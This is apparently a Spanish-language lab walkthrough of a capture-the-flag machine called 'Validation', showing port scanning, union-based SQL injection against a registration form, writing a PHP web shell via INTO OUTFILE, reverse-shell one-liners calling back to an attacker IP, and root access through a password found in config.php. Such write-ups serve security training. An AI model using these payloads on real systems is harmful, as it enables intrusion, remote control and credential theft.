 1. Escaneo con nmap

```console
└─$ nmap -sCV -Pn -T5 10.10.11.116

22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
80/tcp   open  http    Apache httpd 2.4.48 ((Debian))
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
|_http-server-header: Apache/2.4.48 (Debian)
4566/tcp open  http    nginx
|_http-title: 403 Forbidden
8080/tcp open  http    nginx
|_http-title: 502 Bad Gateway
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

└─$ whatweb http://10.10.11.116:80
http://10.10.11.116:80 [200 OK] Apache[2.4.48], Bootstrap, Country[RESERVED][ZZ], HTTPServer[Debian Linux][Ap
ache/2.4.48 (Debian)], IP[10.10.11.116], JQuery, PHP[7.4.23], Script, X-Powered-By[PHP/7.4.23]

└─$ whatweb http://10.10.11.116:8080
http://10.10.11.116:8080 [502 Bad Gateway] Country[RESERVED][ZZ], HTTPServer[nginx], IP[10.10.11.116], Title[502 Bad Gateway], nginx
```
2. La web en el puerto 80 -> Es una web php por lo que dice el escaneo. Te da un formulario con el nombre y un pais -> Pongo "cucuxii:Canada" y 
me dirige a /account.php donde sale una lista (vacia) de otros jugadores en esa zona.

Se me ocurrieron tanto un STTI (por estar reflejado mi input (nombre)) como un sqli, ya que intuyo que la query puede ser algo como esto 
```
SELECT player FROM players WHERE country='Canada';
```

La peticion se tramita tal que asi "POST a / -> 'username=cucuxii&country=Canada' -> redirect a /account.php" donde me setea una cookie como 
"1a5bf49db4c2f7f4cf8f1645e1fd3cc5" (no parece base64 ni hexadecimal...)

Intente formar un error sqli como ```Canada'``` y salio un error como este 
```
Fatal error: Uncaught Error: Call to a member function fetch_assoc() on bool in /var/www/html/account.php:33 Stack trace: #0 {main} thrown in 
/var/www/html/account.php on line 33
``` 
Investigue de que se trataba este error y sale porque se ha puesto mal una query sql. Si ponemos ```' -- -``` ya no sale porque se ha cerrado 

3. SQLI:
```' union select 1-- -``` devuelve 1 en la respuesa, o sea ya tenemos campo que explotar.  
```' union select database()-- - # -> registration```  
```' union select schema_name from information_schema.schemata-- -   # -> mysql registration```  
```' union select table_name from information_schema.tables where table_schema = 'registration'-- -```  
```' union select column_name from information_schema.columns where table_schema = 'registration' and table_name ='registration'-- - # -> username   userhash```   
```' union select group_concat(username,0x3a,userhash) from registration-- -```  
Aun asi esta ultima query solo me devolvia los hashes de mis usuarios que he ido creando.  

4. Shell  
```' union select "<?php system($_GET['cmd']); ?>" INTO OUTFILE '/var/www/html/shell.php'-- -```  
Me ha dado el error, pero luego la ruta existir existia diciendo que no puedo dar un comando en blanco.  

He hecho una peticion tal que asi y me ha dado una shell como www-data:   
```
http://10.10.11.116/shell.php?cmd=bash -c 'bash -i >%26 /dev/tcp/10.10.14.8/443 0>%261'  
http://10.10.11.116/shell.php?cmd=rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>%261|nc 10.10.14.8 443 >/tmp/f  
```

```
└─$ sudo nc -nlvp 443
www-data@validation:/var/www/html$ ls  # -> config.php  
www-data@validation:/var/www/html$ cat config.php # ->   $password = "uhc-9qual-global-pw";  
www-data@validation:/var/www/html$ su root # -> Password: uhc-9qual-global-pw  
```


